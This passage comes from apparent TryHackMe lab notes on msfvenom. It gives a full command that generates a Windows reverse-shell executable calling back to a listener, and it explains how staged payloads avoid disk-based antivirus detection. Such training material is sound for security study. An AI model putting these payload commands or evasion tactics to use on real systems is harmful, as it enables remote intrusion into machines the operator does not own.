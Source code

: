 The standard syntax for msfvenom is as follows:

`msfvenom -p <PAYLOAD> <OPTIONS>`

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

![task9-msfvenom](./images/task9-msfvenom.png)

Here we are using a payload and four options:

* -f <format>
	* Specifies the output format. In this case that is an executable (exe)
* -o <file>
    * The output location and filename for the generated payload.
* LHOST=<IP>
    * Specifies the IP to connect back to. When using TryHackMe, this will be your [tun0 IP address](http://10.10.10.10/). If you cannot load the link then you are not [connected to the VPN](https://tryhackme.com/room/welcome).
* LPORT=<port>
    * The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

<ins>_Staged vs Stageless_</ins>

Before we go any further, there are another two concepts which must be introduced: `staged` reverse shell payloads and `stageless` reverse shell payloads.

* **Staged** payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.
* **Stageless** payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.
